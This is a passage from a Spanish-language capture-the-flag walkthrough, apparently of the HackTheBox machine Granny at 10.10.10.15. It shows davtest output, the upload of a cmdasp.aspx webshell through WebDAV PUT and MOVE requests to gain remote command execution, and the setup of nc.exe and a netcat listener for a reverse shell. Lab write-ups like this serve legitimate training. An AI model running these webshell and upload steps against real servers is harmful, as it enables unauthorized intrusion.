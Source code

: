 Hacemos uso de `davest` para auditar los archivos que podemos subir a un objetivo
```bash
davtest -url http://10.10.10.15
```
```bash
#OUTPUT
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_AUl9CdY
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.jsp
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.txt
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.html
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.php
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.pl
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.cfm
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.jhtml
Executes: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.txt
Executes: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.html
```

Localizamos los binarios `.aspx` que contienen una webshell
```bash
locate .aspx
`````
```bash
#OUTPUT
/usr/share/webshells/aspx/cmdasp.aspx
```

Copiamos el archivo en nuestro directorio
```bash
cp /usr/share/webshells/aspx/cmdasp.aspx webshell.aspx
```

Con los métodos HTTP `PUT` y `MOVE` para subir un archivo y cambiar la extensión de este, para acto seguido, ejecutar la web shell obteniendo ejecución remota de comandos.

```bash
curl -s -X PUT http://10.10.10.15/webshell.txt -d @webshell.aspx
curl -s -X MOVE -H "Destination:http://10.10.10.15/webshell.aspx" http://10.10.10.15/webshell.txt
```

Copiamos en nuestro directorio, el binario para windows de `nc`
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe nc.exe
```

Creamos un listener
```bash
rlwrap nc -lnvp 4564
```

Cargamos en el navegador el recurso `http://10.10.10.15/webshell.txt`

<p align="center">
<img src="/assets/images/granny/03-page.png">
</p>

